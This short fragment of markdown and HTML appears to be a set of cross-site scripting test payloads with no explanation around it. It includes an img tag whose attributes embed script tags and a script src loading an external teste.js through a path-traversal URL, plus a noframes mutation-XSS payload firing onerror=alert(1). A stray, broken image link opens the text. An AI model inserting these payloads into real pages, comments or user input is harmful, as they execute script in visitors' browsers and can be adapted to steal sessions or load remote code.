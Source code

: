 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="?w=<script>alert(0);</script>" value=”"<script src='../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js'>;"” width="alert(1)">

<noframes><img title="</noframes><img src onerror=alert(1)>"></noframes>
